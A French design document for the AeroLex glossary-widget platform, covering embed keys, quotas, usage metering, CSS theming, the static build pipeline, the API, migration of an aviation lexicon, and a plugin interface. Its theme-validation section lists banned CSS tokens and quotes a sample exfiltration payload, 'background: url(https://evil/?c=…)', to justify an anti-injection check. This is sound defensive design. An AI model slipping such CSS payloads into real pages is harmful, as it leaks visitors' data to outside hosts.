| Clé révoquée | 403 | `{"error":"key_revoked","message":…}` | inerte + `console.warn` ; le `message` (configurable à la révocation) n'est PAS affiché au visiteur final — on ne fait pas de la page d'un tiers un panneau d'affichage |
| Origin hors `allowed_origins` | 403 | `{"error":"origin_not_allowed"}` | inerte + `console.warn` ; l'événement est compté dans `blocked_hits` (détection de vol de clé) |
| Quota épuisé, `degraded_mode='block'` | 429 | `{"error":"quota_exceeded"}` + `Retry-After` | inerte + `console.warn` |
| Quota épuisé, `degraded_mode='teaser'` | 200 | **index COMPLET mais `"mode":"teaser"`** ; les appels `defs/` renvoient 402 `{"error":"upgrade_required","term":…}` | **le surlignage fonctionne** (les mots sont marqués — le lecteur voit que le lexique existe) mais la popup affiche « Définitions réservées — <a>découvrir AeroLex</a> » au lieu de la définition |

Le mode `teaser` est le plus intéressant commercialement (demande de Louis) : le site hors quota reste *vivant* et fait la démonstration du produit au lieu de mourir en silence — chaque mot surligné devient une invitation à s'abonner. C'est le défaut (`degraded_mode DEFAULT 'teaser'`).

### `embed_usage` — mesure d'usage

**Arbitrage événements vs compteurs agrégés : compteurs agrégés, granularité (clé, jour, origine).** Un site à fort trafic génère des dizaines de milliers d'appels/jour : une table d'événements unitaires ferait des millions de lignes/mois pour répondre à des questions qui sont toutes agrégées (« combien ce mois-ci ? », « quels domaines ? », « facturer quoi ? »). La facturation future se fait au jour près et par domaine — c'est exactement la granularité stockée, rien de plus fin. Si un besoin d'investigation fine apparaît (fraude), c'est du log court-terme côté worker (Cloudflare Analytics Engine, TTL 30 j), pas de la donnée Postgres.

| Colonne | Type | Contraintes |
|---|---|---|
| embed_key_id | `bigint` | FK → embed_keys `ON DELETE CASCADE` |
| day | `date` | NOT NULL |
| origin | `text` | NOT NULL — host réel observé (y compris non autorisés : c'est la donnée de détection) |
| manifest_hits / index_hits / def_hits | `int` | NOT NULL DEFAULT 0 |
| blocked_hits | `int` | NOT NULL DEFAULT 0 — requêtes refusées (origin, quota) |

PK `(embed_key_id, day, origin)`. **Écriture par flush batch** : le worker incrémente en mémoire/Analytics Engine et un job pousse vers Postgres par `INSERT … ON CONFLICT … DO UPDATE SET x = x + EXCLUDED.x` toutes les 5 min — jamais un UPDATE Postgres par requête widget (la DB ne doit pas être sur le chemin chaud). Le quota du jour se vérifie sur le compteur edge (KV/Durable Object), pas en base : la base est le registre comptable, pas le compteur temps réel.

### Impact pipeline — statique pur vs contrôlé (LE point dur, tranché)

Le statique est rapide et cachable mais ne sait pas contrôler. Architecture retenue, **par `access_mode`** :

- **`open`** : artefacts servis en **statique pur au bord**, inchangé (immutable + TTL, §B). Si une clé est quand même posée (recommandé, pour la mesure), SEUL `manifest.json` passe par le worker de comptage (`/k/<clé>/manifest.json`) : à TTL 300 s c'est ~1 hit par visiteur par 5 min — mesure en « sessions », largement suffisante pour des paliers de facturation, et l'index/defs/CSS restent des fichiers immutables au CDN, coût zéro. La réponse du worker inclut les chemins hashés des artefacts statiques.
- **`keyed`** : TOUTES les requêtes widget passent par le worker : `/k/<clé>/manifest.json`, `/k/<clé>/index.<hash>.json`, `/k/<clé>/defs/<slug>.json`, `/k/<clé>/theme.<hash>.css`. Le worker valide (clé active + Origin + quota, lookup KV poussé à chaque changement de clé — pas d'aller-retour Postgres), incrémente, puis **proxie le même fichier statique** depuis l'origine avec `Cache-Control: private, max-age=300` (le contenu reste un artefact de build unique ; seul le DROIT d'y accéder est évalué par requête). Les artefacts ne sont jamais dupliqués par clé — une clé = un droit, pas une copie.
- Les pages SEO `<slug>.html` et `sitemap.xml` restent gouvernées par `visibility`, pas par les clés : un lexique `public keyed` a des pages indexables (vitrine) mais un widget contrôlé.

Rien ne change au build : mêmes artefacts, mêmes hashs. Le contrôle est une **couche de service devant les fichiers**, jamais une variante des fichiers.

### `themes` — apparence par pose (CSS personnalisable)

**Arbitrage thème par lexique ou par pose : les deux, résolution par pose.** Louis intègre le même lexique sur plusieurs sites (ATCF sombre, blog clair) : le style est une propriété du CONTEXTE d'intégration, donc de la pose. Mais dupliquer le thème sur chaque clé serait du dérivé stocké (règle §F.2). D'où : les thèmes appartiennent au lexique (réutilisables), chaque clé de pose **référence** le sien (`embed_keys.theme_id`), et la résolution est en cascade : thème de la clé → thème par défaut du lexique → thème plateforme (embarqué dans `aerolex.css`).

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK → lexicons NOT NULL `ON DELETE CASCADE` |
| name | `text` | NOT NULL, `UNIQUE (lexicon_id, name)` |
| is_default | `boolean` | NOT NULL DEFAULT false — index partiel `UNIQUE (lexicon_id) WHERE is_default` |
| variables | `jsonb` | NOT NULL — uniquement des clés du registre ci-dessous, **valeurs validées par type** (§ injection) |
| created_at / updated_at | `timestamptz` | NOT NULL |

`lexicons.widget_config` perd son rôle cosmétique (les couleurs migrent vers le thème par défaut) et garde le comportemental (allowed_origins des lexiques privés, options popup).

**Registre des variables stylables** — 23 custom properties, dérivées des cas cités par Louis (pointillé discret, stabilo, styles différents par état, popup). Le moteur n'utilise QUE ces variables ; un thème = un fichier qui les redéfinit :

| Variable | Défaut | Type validé |
|---|---|---|
| `--aerolex-hl-decoration-line` | `underline` | enum `underline\|none` |
| `--aerolex-hl-decoration-style` | `dotted` | enum `solid\|dotted\|dashed\|wavy\|none` |
| `--aerolex-hl-decoration-color` | `#2563eb` | couleur |
| `--aerolex-hl-decoration-thickness` | `1px` | longueur |
| `--aerolex-hl-bg` | `transparent` | couleur — le « stabilo » : mettre une couleur ici + `decoration-line: none` |
| `--aerolex-hl-color` | `inherit` | couleur\|`inherit` |
| `--aerolex-hl-cursor` | `help` | enum `help\|pointer\|default` |
| `--aerolex-hl-undef-decoration-style` | `dashed` | enum (idem) — état « à rédiger » |
| `--aerolex-hl-undef-decoration-color` | `#f59e0b` | couleur |
| `--aerolex-hl-undef-bg` | `transparent` | couleur — le « stabilo pour ce qui n'est pas défini » demandé par Louis |
| `--aerolex-hl-reroute-decoration-style` | `dotted` | enum — état homonyme rerouté |
| `--aerolex-hl-reroute-decoration-color` | `#7c3aed` | couleur |
| `--aerolex-popup-bg` | `#ffffff` | couleur |
| `--aerolex-popup-fg` | `#1f2937` | couleur |
| `--aerolex-popup-border-color` | `#e5e7eb` | couleur |
| `--aerolex-popup-border-width` | `1px` | longueur |
| `--aerolex-popup-radius` | `8px` | longueur |
| `--aerolex-popup-shadow` | `soft` | **enum de presets** (`none\|soft\|medium\|strong`) développée serveur — jamais de box-shadow libre |
| `--aerolex-popup-max-width` | `360px` | longueur |
| `--aerolex-popup-font-family` | `system-ui, sans-serif` | enum de piles sûres (system-ui, serif, sans-serif, monospace + Google Fonts whitelistées) |
| `--aerolex-popup-font-size` | `0.9rem` | longueur |
| `--aerolex-popup-link-color` | `#2563eb` | couleur |
| `--aerolex-popup-title-weight` | `600` | enum `400\|500\|600\|700` |

*(L'état « terme courant » (survolé/ouvert) dérive des variables de base par le moteur — opacité/graisse calculées, pas de variables dédiées : 23 suffisent, on n'expose pas 40 boutons.)*

**Génération et publication** : à chaque enregistrement d'un thème, le build produit `dist/<lexique>/theme-<theme_id>.<hash8>.css` (~0,8 Ko brut, ~0,4 Ko gzip) — hash de contenu dans le nom donc `Cache-Control: immutable`, invalidation par changement de nom, `manifest.json` (ou la réponse worker en mode keyed) porte le chemin courant. Modifier un thème = réécrire 1 CSS + le manifest, propagation ≤ 5 min par le TTL manifest, **aucun rebuild d'index ni de pages** — même mécanique que les zones. Le CSS généré ne contient QUE des déclarations de variables sur `.aerolex-hl, .aerolex-popup` : la structure (positionnement, flèche, animations) vit dans `aerolex.css` commun et n'est jamais dupliquée.

**Override par l'intégrateur** (demande de Louis : « tout en permettant l'override s'il veut gérer ça de son côté ») — trois crans :
1. **Surcharge ciblée** : le CSS de thème est chargé AVANT les feuilles du site (injecté en tête de `<head>`) et ne pose que des variables à spécificité classe simple — l'intégrateur redéfinit `.aerolex-hl { --aerolex-hl-bg: yellow; }` dans son propre CSS et gagne naturellement (ordre + spécificité égale = dernier gagne). Zéro `!important` dans le CSS AeroLex, contrat garanti.
2. `data-css="core"` sur le script de pose : charge `aerolex.css` (structure) mais AUCUN thème — l'intégrateur fournit toutes les variables.
3. `data-css="off"` : AeroLex n'injecte AUCUN CSS — l'intégrateur style tout, y compris la structure de la popup (classes documentées `aerolex-hl`, `aerolex-hl--undef`, `aerolex-hl--reroute`, `aerolex-popup`).

**Éditeur simplifié — contrat de données (pas d'implémentation ici)** : l'UI expose des champs typés (pickers couleur pour les 11 couleurs, sliders pour les 6 longueurs, selects pour les 6 enums), un aperçu live sur un paragraphe d'exemple, et `PUT /lexicons/{id}/themes/{theme_id}` envoie le JSON `variables`. **Validation serveur, tout échec = 422** : (1) clé de variable inconnue du registre → refusée (on n'écrit jamais une propriété arbitraire) ; (2) valeur validée par le type de la variable — couleur = `^#[0-9a-f]{3,8}$` ou `rgb()/hsl()` à arguments numériques, longueur = `^\d+(\.\d+)?(px|em|rem|%)$`, enums strictes ; (3) toute valeur contenant `;`, `{`, `}`, `\`, `/*`, `url(`, `expression(`, `@` → refusée — **c'est le verrou anti-injection** : un CSS généré par concaténation de valeurs libres est un vecteur d'exfiltration classique (`background: url(https://evil/?c=…)`) ; ici aucune valeur libre n'atteint le fichier, chaque octet écrit est passé par une whitelist de forme ; (4) contraste popup fg/bg calculé (WCAG) : < 4.5:1 → warning bloquable (« publier quand même »), pas un refus dur — l'accessibilité se recommande, le thème reste le choix de l'éditeur.

### Note — schémas SVG : fonction potentiellement payante

L'inventaire des schémas générés (16 schémas proposés couvrant ~93 termes, ratio de mutualisation 5,8 termes/schéma) est une fonction **monétisable** : « illustrez votre lexique » — un lexique tiers texte-seul devient illustré par activation de générateurs de plateforme (§A-ter), sans upload ni risque. Rattachement au modèle de facturation naissant : `free` = `term_media` seulement (ses propres images) ; l'accès aux `schema_generators` (déclaration + `schema_params` + rendu au build) devient un attribut du plan `pro` — techniquement c'est UN check de plan à l'API `POST /lexicons/{id}/generators`, rien d'autre à modéliser aujourd'hui. Avec `embed_keys` + `embed_usage` + `degraded_mode='teaser'`, cela forme les trois premières briques concrètes du modèle payant : accès mesuré, dégradation commerciale, fonctions premium.

---

## B. Pipeline DB → fichiers statiques

### Artefacts générés par lexique (sous `dist/<id-lexique>/`)

| Artefact | Contenu | Poids attendu (base aero, 1297 termes) | Cache |
|---|---|---|---|
| `index.<hash8>.json` | index LÉGER : `{term_canonique: {s: slug, v: [variantes], cr/cs/as/rr/xp: règles de reconnaissance (§A-bis, champs omis si défaut)}}` — **aucune définition** | ~30 Ko brut / **~16 Ko gzip** (+ ~1,3 Ko brut / ~0,5 Ko gzip de règles sur la base aero) | `Cache-Control: public, max-age=31536000, immutable` — le hash dans le nom EST le cache-busting |
| `manifest.json` | 1 objet : version courante, chemin de l'index hashé, plugins, widget_config, **zones compactées (§A-bis)** | < 2 Ko | `max-age=300, stale-while-revalidate=86400` — seul fichier à TTL court côté widget ; **une modif de zone = réécriture du manifest seul, propagée en < 5 min** |
| `defs/<slug>.json` | 1 fiche : définition, catégorie, xrefs (slug+libellé), variantes affichables, médias (`[{url, w, h, alt, caption}]`), chemin du schéma généré | **~300 o** pièce (+ ~80 o par média), gzippé au vol | `max-age=3600` + `ETag` (hash contenu) — purge Cloudflare ciblée à l'édition |
| `<slug>.html` | page SEO du mot : fiche complète + membres de famille + xrefs en liens + JSON-LD `DefinedTerm` + médias en `<figure>` (AVIF/WebP via `<picture>` quand les deux variantes existent) + schéma SVG inliné ou `` selon poids | ~4-6 Ko | `max-age=3600` + ETag, purge ciblée |
| `schemas/<name>-<hash8>.svg` | schémas SVG **générés au build** par les `schema_generators` déclarés, un fichier par combinaison (générateur, params) | 2-6 Ko pièce | immutable (hash dans le nom) |
| `index.html` | sommaire alphabétique façon dictionnaire, compteurs calculés au build (plus jamais en dur) | ~60-80 Ko | idem |
| `sitemap.xml` | pages du lexique (si `public` uniquement) | ~50 Ko | `max-age=86400` |
| `plugins/<nom>.js` | modules déclarés dans `lexicons.plugins` — copiés depuis le dépôt de plugins, pas générés | qq Ko | immutable, versionné par hash |
| `theme-<id>.<hash8>.css` | variables CSS du thème (§A-quater) — un fichier par thème du lexique | ~0,8 Ko | immutable (hash dans le nom) ; réécrit seul + manifest à chaque enregistrement du thème |

À la racine (communs) : `aerolex.js` (noyau : lit `data-key` — qui résout le lexique — ou `data-index` pour les lexiques `open` ; charge le manifest via `/k/<clé>/…` si clé, sinon `/<lex>/manifest.json`, puis l'index hashé et le CSS de thème selon `data-css`), `aerolex.css`. **Service selon `access_mode` (§A-quater)** : `open` = statique pur (worker de comptage sur le seul manifest si une clé est posée) ; `keyed` = tous les endpoints widget derrière le worker de validation (clé/Origin/quota), qui proxie les mêmes artefacts — le build ne produit jamais de variante par clé. Un lexique `private` est généré dans un répertoire à suffixe secret (`/<id>-<token16>/`) non listé, sans sitemap, avec `X-Robots-Tag: noindex` et CORS restreint aux origines déclarées dans `widget_config.allowed_origins` ; `public` = CORS `*` + indexable. Basculer la visibilité = rebuild + purge, rien d'autre.

### Propagation d'une modification

```
UPDATE terms.definition                    t0
  → trigger : term_revisions + updated_at
  → NOTIFY aerolex_dirty(lexicon_id)       (ou poll 30 s du worker)
  → build INCRÉMENTAL : diff manifest      t0 + ~5 s
      réécrit : defs/<slug>.json, <slug>.html,
      pages des membres de famille touchés, index.html (compteurs),
      index.<hash>.json SEULEMENT si terme/variantes ont changé
  → rsync/upload des fichiers modifiés
  → purge Cloudflare par URL (API, liste issue du diff)   t0 + ~15 s
```

**Visiteur à jour en < 30 s** dans le cas courant (édition d'une définition = 3-4 fichiers réécrits + purgés). Le build complet (1300+ pages) reste sous la minute et n'est déclenché que par un changement de config, de visibilité ou de gabarit. Les artefacts vivent **sur disque uniquement** — jamais stockés en base (voir §E).

---

## C. API minimale

Base `https://aerolex.prunel.net/api/v1`. **Auth : clé API** `Authorization: Bearer alx_…` (table `api_keys`, comparaison sur hash). OAuth est réservé à la connexion web du back-office ; pour l'API machine, la clé suffit largement au lancement — pas d'OAuth2 côté API tant qu'il n'y a pas d'applications tierces agissant *au nom* d'utilisateurs.

| Endpoint | Rôle |
|---|---|
| `POST /lexicons` | créer (id, title, language, visibility) |
| `GET/PATCH/DELETE /lexicons/{id}` | lire/éditer (dont visibility, widget_config, plugins) / soft-delete |
| `GET /lexicons/{id}/terms?status=a_rediger&q=` | lister/chercher (statut = filtre `definition = ''`) |
| `POST /lexicons/{id}/terms` | créer une fiche — renvoie le **slug attribué** (gestion collision §A) ; `409` + slug existant si doublon normalisé |
| `PATCH/DELETE /terms/{term_id}` | éditer (déf, catégorie, famille, variantes, xrefs) / supprimer |
| `POST /lexicons/{id}/imports` | créer un `import_job` — voir méthodes ci-dessous |
| `GET /imports/{job_id}` | statut ; `POST /imports/{job_id}/apply` après revue de la liste proposée |
| `POST /lexicons/{id}/publish` | forcer un build ; `GET /lexicons/{id}/builds` pour l'état |
| `GET/PUT /terms/{term_id}/match-rules` | lire/remplacer les règles de reconnaissance de la fiche (§A-bis) — PUT idempotent de la liste complète, plus simple qu'un CRUD par règle à cette granularité |
| `GET/PUT /lexicons/{id}/zones` | lire/remplacer la liste des zones (§A-bis) — PUT idempotent, validation sélecteurs à l'écriture |
| `GET/PUT /lexicons/{id}/rules` | **document agrégé de niveau 2 (§E.2)** : zones + flags de termes + match-rules du lexique en UN JSON éditable ; le serveur le décompose vers `zones`, `terms.case/accent_sensitive` et `term_match_rules`. C'est l'interface d'édition de référence du back-office |
| `POST /lexicons/{id}/preview` | **dry-run (§E.4)** : `{url \| html \| text, draft?}` → liste des surlignages qui seraient produits, avec raison de chaque blocage ; `draft` = document de règles appliqué par-dessus l'état courant SANS écrire |
| `POST /terms/{term_id}/media` | attacher un média : multipart (hébergé — vérifie mime whitelist, sanitize SVG, mesure w/h/bytes, contrôle quota, refuse sans `alt`) OU JSON `{url, alt, …}` (externe) |
| `PATCH/DELETE /media/{media_id}` | légende, alt, crédit, position / retrait (l'objet R2 est gardé 30 j puis GC — dé-dup oblige, il peut être partagé) |
| `GET /lexicons/{id}/generators` | générateurs de schémas disponibles pour ce lexique (registre plateforme filtré par déclaration) |
| `GET/POST /lexicons/{id}/keys` | lister/créer les clés de pose (§A-quater) — la réponse contient `public_key` en clair (non secrète) |
| `PATCH /keys/{key_id}` | label, `allowed_origins`, `degraded_mode`, `daily_quota`, `theme_id`, révocation (`status='revoked'` — effet ≤ 60 s via push KV) |
| `GET /keys/{key_id}/usage?from=&to=` | agrégats `embed_usage` (par jour, par origine, hits bloqués) — la donnée de facturation et de détection |
| `GET/POST /lexicons/{id}/themes` · `PUT/DELETE /themes/{theme_id}` | CRUD des thèmes (§A-quater) — PUT valide le registre de variables (422 détaillé), déclenche la publication du CSS |

**Méthodes d'import — couverture de TODO-FEATURES.md §5** (les 3 voies, cumulables) :

1. **Import fichier** (`method=file_upload`) : multipart CSV/JSON/XLSX/Markdown/export Notion-Airtable + `source_meta.mapping` (colonne→champ : terme/définition/catégorie/variantes). Champs non mappés → `terms.extra`. Dédup automatique par forme normalisée (fusion, pas de doublon).
2. **Manuel** (`POST /terms` unitaire, ou `method=manual_batch` pour une liste `[{terme, famille}]` — le format `nouveaux.json` de la procédure incrémentale de TODO-FEATURES §4).
3. **IA** :
   a. `method=ai_domain` — `source_meta.domain_description` (« charpentier couvreur en France ») → job en `status=review` avec liste de termes proposés, l'utilisateur coche/décoche, `apply` déclenche la rédaction ;
   b. `method=ai_documents` — dépôt PDF/DOCX/URLs → extraction du vocabulaire (fréquence + saillance), dédup contre index générique, puis même cycle review→apply ;
   c. `method=ai_mixed` — les deux combinés (le pipeline PPL).

**Contrainte d'économie (TODO §4 et §5) portée par le modèle** : un import ne rédige que les termes du job (`origin = 'ai:<job_id>'`), la réciprocité famille est un calcul au build (rien à recalculer en base), et le build est incrémental — coût proportionnel aux ajouts, jamais au corpus. Les garde-fous éditoriaux (20-45 mots, pas de HTML, pas de valeurs chiffrées machine, familles ≤ 13) sont des validations du pipeline de rédaction, pas des contraintes SQL.

**Quotas** (appliqués par plan, comptés en base) : `free` = 3 lexiques, 2 000 termes/lexique, 1 job IA/jour, 60 req/min, **20 Mo de médias hébergés/lexique (2 Mo/fichier, 5 médias/fiche)** ; `pro` = à définir. `429` + `Retry-After` au-delà (`413` pour un fichier trop lourd).

---

## D. Migration de l'existant → lexique `aero`

Script one-shot lisant `data_glossaire_full.py` (1297 entrées, champs réels constatés : `definition, categorie, famille, statut, origine, schema, variantes, xrefs`) **et l'overlay aero-coach `data_glossaire.py` (`_LOCAL_OVERLAY` : 52 entrées, 112 métadonnées — comptage réel du 03/08 : 48 xrefs, 30 famille, 18 schema nommés, 11 contexte_requis, 4 casse_sensible, 1 homonyme)** :

1. `users` : compte Louis (admin). `lexicons` : `('aero', louis, 'public', 'fr', plugins={'metar'})`.
2. `categories` / `families` : `INSERT … SELECT DISTINCT` des valeurs rencontrées (~15 catégories, ~64 familles). `famille` absente (380 fiches) → `family_id NULL` (autorisé).
3. `terms` : clé du dict → `term` ; `slugify(term)` → `slug` (collisions résolues au fil de l'eau, rapport listant chaque suffixe attribué — à relire à la main, attendu < 5 cas) ; `definition` telle quelle ; `origine` → `origin` ; `link_active = (origine != 'metier')`.
4. `variantes` → `term_variants(kind='variante', generated=false)`. Doublon normalisé inter-fiches → rapport + arbitrage manuel (l'anti-doublon actuel est appliqué au fil de l'eau, pas garanti : il y en aura).
5. `xrefs` (libellés libres, 664 fiches) → résolution par forme normalisée contre termes+variantes → `term_xrefs`. **Non résolues → rapport, abandonnées en base** (c'est le but : les xrefs cassées actuelles deviennent visibles et corrigeables).
6. `term_revisions` : une révision initiale par fiche non vide, `author_label = 'migration:' + origine`.
7. **Overlay aero-coach → nouveau modèle** :
   - 11 `contexte_requis` → `term_match_rules(kind='context_required', scope='window', window_size=40)` — les listes de mots sont reprises telles quelles, les formes en `atterriss`/`givr` deviennent des préfixes `atterriss*` ;
   - 4 `casse_sensible` (TORA, TODA, ASDA, LDA) → `terms.case_sensitive = true` ;
   - 1 `homonyme` (« vent arrière » → « composante arrière », 35 déclencheurs) → `term_match_rules(kind='context_reroute', target_term_id=composante-arriere, trigger_words=…)` ;
   - 30 `famille` et 48 `xrefs` → fusionnés dans les étapes 2 et 5 ci-dessus (mêmes tables) ;
   - **exclusions QCM des pages ATCF** → 1 ligne `zones(mode='exclude', selector=<sélecteur des blocs QCM des pages de cours — à relever sur le HTML réel avant migration>, url_pattern='/atcf/*', note='jamais de définition dans l'énoncé d'un QCM')` — aujourd'hui ce comportement n'existe nulle part (le bug est vivant), la migration le crée ;
   - 18 `schema` **nommés** (9 générateurs distincts : `tour_de_piste` ×7, `distances_piste` ×4, et 7 autres ×1) → `schema_generators` (9 lignes pour le lexique `aero`) + `terms.schema_generator_id` sur les 18 fiches ; `schema_params.actif` = le terme lui-même pour les 7 fiches `tour_de_piste` (surbrillance de branche, comportement actuel de `get_schema(name, terme)`).
8. Premier build → diff HTML page à page contre le `dist/` actuel avant bascule.
9. **Clés de pose et thème** : `aero` reste `access_mode='open'` (rien ne casse, les pages actuelles continuent de marcher sans clé) ; création d'UNE clé de pose `alxk_…` (label « aero-coach », `allowed_origins={aero-coach.prunel.net}`) posée en `data-key` sur les pages ATCF pour amorcer la mesure d'usage réelle ; création du thème par défaut du lexique `aero` reproduisant le style actuel du widget (les valeurs cosmétiques de `widget_config` migrent dans `themes.variables`, `widget_config` ne garde que le comportemental).

L'overlay aero-coach devient alors **vide** : ses 112 métadonnées ont toutes une place en base, `data_glossaire.py` se réduit au chargement direct d'AeroLex (à faire côté aero-coach, hors périmètre de ce document).

**Données actuelles sans place directe** : `statut` — **jeté volontairement** (les 1297 sont `redigee` ; le modèle le déduit de la définition, règle n°6) ; `schema: True` booléen de `data_glossaire_full.py` — **222 fiches** (comptage réel, pas ~40) portent ce flag qui ne nomme aucun générateur : les 18 couvertes par l'overlay sont migrées (étape 7), les **204 restantes sont jetées avec rapport** — un booléen sans cible est inexploitable ; si certaines méritent un schéma, c'est une ressaisie éditoriale (ou un futur générateur), pas une migration ; les backups `.BACKUP-*` — ignorés. **Champs du modèle qu'on ne saura pas remplir** : `term_media` (aucun média dans les données actuelles — table vide au départ), les règles `exclude` (aucune existante), `kind='synonyme'` (aucun dans les données), `families.display_config` (les `colonnes_tableau` évoquées dans TODO §4 ne sont pas dans le fichier — vide), `families.parent_id` (hiérarchie plate au départ).

---

## E. Fonctions avancées — créer et intégrer exceptions & zones « le plus facilement possible »

La mécanique (tables `term_match_rules`, `zones`) est au §A-bis. Cette section définit **comment on la crée et la branche sans friction** : trois niveaux d'accès, du zéro-config au plugin.

### E.0 Je veux faire X → j'utilise le niveau N

| Je veux… | Niveau | Comment |
|---|---|---|
| Ne jamais surligner dans le code, les formulaires, la popup elle-même | 0 (défauts moteur) | Rien à faire — exclusions embarquées dans `aerolex.js` |
| Empêcher le surlignage dans MES blocs QCM | 1 ou 2 | `data-aerolex="off"` sur le bloc (immédiat) ; ou zone `exclude` `.qcm` (centralisé, tout le site) |
| Surligner uniquement dans le contenu du cours | 1 ou 2 | `data-aerolex-root` sur `<main>` ; ou zone `include` `.contenu-cours` |
| « plein » surligné seulement près de carburant/essence/réservoir | 2 | règle `context_required` dans le document `/rules` |
| « VOR » en majuscules seulement, jamais « vor » | 2 | `term_flags.VOR.case_sensitive: true` |
| « vent arrière » ouvre « composante arrière » près de cos/sin/composante | 2 | règle `context_reroute` |
| Reconnaître `25014G24KT` ou `Q1015` (motif, pas dictionnaire) | 3 | activer le plugin `metar` dans `lexicons.plugins` |
| Forcer un lien vers une fiche précise sur UN mot d'UNE page | 1 | `data-aerolex-term="<slug>"` sur l'élément |
| Poser le widget avec mesure d'usage, révocation, quotas | — | clé de pose `data-key="alxk_…"` (§A-quater) |
| Réserver mes définitions aux poses autorisées (teaser sinon) | — | `lexicons.access_mode='keyed'` + `degraded_mode='teaser'` |
| Changer couleur/style du surlignage sans toucher mon site | — | éditeur de thème back-office (CSS republié, propagé ≤ 5 min) |
| Styler différemment sur deux de mes sites | — | deux clés de pose, `theme_id` différent par clé |
| Gérer tout le style moi-même | 1 | `data-css="off"` (ou `"core"`) sur le script + classes documentées |

### E.1 Niveau 1 — attributs HTML (déclaratif, zéro config serveur)

Posés par l'intégrateur directement dans sa page ; effet immédiat, rien en base, rien à publier. Liste **exhaustive** des attributs reconnus :

| Attribut | Sémantique |
|---|---|
| `data-aerolex="off"` | aucun surlignage dans ce sous-arbre |
| `data-aerolex="on"` | ré-active dans un sous-arbre exclu par un ancêtre ou une zone de niveau 2 (l'ancêtre **le plus proche** gagne — imbrication libre) |
| `data-aerolex-root` | s'il est présent au moins une fois sur la page, le surlignage est confiné aux éléments qui le portent (équivalent local d'une zone `include`) |
| `data-aerolex-term="<slug>"` | force le lien de cet élément vers la fiche `<slug>`, sans passer par le matching (utile pour un sigle maison, une image, un libellé reformulé) |

C'est tout — quatre attributs, volontairement. `data-aerolex-skip` (mentionné au §A-bis) est un alias déprécié de `data-aerolex="off"`, reconnu pour compatibilité.

### E.2 Niveau 2 — document de règles du lexique (JSON, back-office ou API)

Un seul document agrégé par lexique, édité via `GET/PUT /lexicons/{id}/rules` (ou le futur back-office). Le serveur **valide puis décompose** vers les tables ; le GET le **recompose** — le document n'est jamais stocké tel quel (pas de deuxième source de vérité, règle du §F.2). Schéma commenté, illustré par le **cas réel complet du lexique `aero`** :

```jsonc
{
  "version": 1,                       // version du FORMAT (migrations futures)

  "zones": [                          // → table zones (§A-bis)
    {
      "mode": "exclude",              // "include" | "exclude"
      "selector": ".qcm, .question-bloc",  // sélecteur CSS — validé à l'écriture
      "url_pattern": "/atcf/*",       // glob pathname ; omis = partout
      "priority": 10,                 // départage ; omis = 0
      "note": "jamais de définition dans l'énoncé d'un QCM"
    },
    { "mode": "exclude", "selector": "blockquote, figcaption" }
  ],

  "term_flags": {                     // → colonnes de terms (clé = terme canonique)
    "TORA": { "case_sensitive": true },
    "TODA": { "case_sensitive": true },
    "ASDA": { "case_sensitive": true },
    "LDA":  { "case_sensitive": true }
  },

  "match_rules": {                    // → term_match_rules (clé = terme canonique)
    "plein": [{ "kind": "context_required",
                "trigger_words": ["carburant", "essence", "reservoir"],
                "scope": "window", "window_size": 40 }],
    "tour":  [{ "kind": "context_required",
                "trigger_words": ["controle", "frequence", "aerodrome"] }],
    "vol":   [{ "kind": "context_required",
                "trigger_words": ["aeronef", "avion", "pilot*", "navigation"] }],
    "air":   [{ "kind": "context_required",
                "trigger_words": ["masse", "densite", "pression", "vitesse"] }],
    "vent arrière": [{ "kind": "context_reroute",
                       "target": "composante-arriere",   // slug de la fiche cible
                       "trigger_words": ["composante", "cos", "sin", "allonge*"] }],
    "froid": [{ "kind": "exclude", "url_pattern": "/blog/*" }]
  }
}
```

Un PUT partiel n'existe pas : le document complet est remplacé (idempotent, diffable, versionnable côté client). Le back-office édite ce document avec formulaire + **bouton « Prévisualiser »** branché sur le dry-run (§E.4).

### E.3 Niveau 3 — plugins (code de PLATEFORME uniquement)

Position déjà arrêtée (§F.3) : **aucun code fourni par un tiers n'est exécuté**, ni au build ni dans le widget. Un plugin vit dans le dépôt AeroLex (`plugins/<nom>.js`), passe une revue humaine, et un lexique l'**active** par simple déclaration : `lexicons.plugins = {metar}`. Interface (module ES, tous les hooks optionnels) :

```js
export default {
  name: "metar", version: "1.0.0",

  // Hook 1 — AVANT surlignage : matchers additionnels (motifs, pas dictionnaire).
  // Appelé une fois au chargement de l'index. Le moteur fusionne ces matchers
  // avec le dictionnaire ; les zones/attributs s'appliquent à eux AUSSI.
  matchers(ctx) {
    return [
      { pattern: /\b\d{3}\d{2}(G\d{2})?(KT|MPS)\b/g,        // 25014G24KT
        handler: m => ({ kind: "metar-wind", data: decodeWind(m[0]) }) },
      { pattern: /\bQ(09[5-9]\d|10[0-4]\d|1050)\b/g,          // Q1015
        handler: m => ({ kind: "metar-qnh", data: { hpa: +m[0].slice(1) } }) }
    ];
  },

  // Hook 2 — DÉCIDER si un match candidat est valide.
  // Retour : true (laisser passer) | false (veto, définitif) | {reroute: "<slug>"}.
  shouldMatch(match, ctx) { return true; },

  // Hook 3 — TRANSFORMER le rendu de la popup.
  // Retour : Node (remplace le rendu par défaut) | null (rendu par défaut).
  renderPopup(match, fiche, ctx) {
    if (match.kind !== "metar-wind") return null;
    return ctx.h("div", {}, `Vent du ${match.data.dir}° pour ${match.data.kt} kt` +
                            (match.data.gust ? `, rafales ${match.data.gust} kt` : ""));
  },

  // Hook 4 — FOURNIR un média dynamique à une fiche (ex. rose des vents orientée).
  // Retour : [{url|svg, alt, caption?}] | [].
  provideMedia(fiche, ctx) { return []; }
};
```

**Ordre d'exécution** : les plugins tournent dans l'ordre du tableau `lexicons.plugins`. `matchers` : tous collectés puis fusionnés. `shouldMatch` : chaîne — le premier `false` est un veto définitif, le premier `{reroute}` gagne. `renderPopup` : le premier retour non-null gagne. `ctx` expose `{lexiconId, config, h (créateur de nœuds), getFiche(slug) (fetch defs/<slug>.json)}` — pas d'accès direct au DOM global hors du nœud popup fourni.

### Précédence entre niveaux (quand ils se contredisent)

1. **Défauts moteur (niveau 0)** : inviolables (personne ne surligne dans `<script>`).
2. **Le plus local gagne** : attribut HTML (niveau 1) > zone de niveau 2 > plugin (niveau 3). Un `data-aerolex="on"` ré-active DANS une zone `exclude` de niveau 2 ; un plugin ne peut jamais forcer un surlignage dans un sous-arbre exclu par 1 ou 2 — son `shouldMatch` n'est même pas appelé (le candidat est éliminé avant).
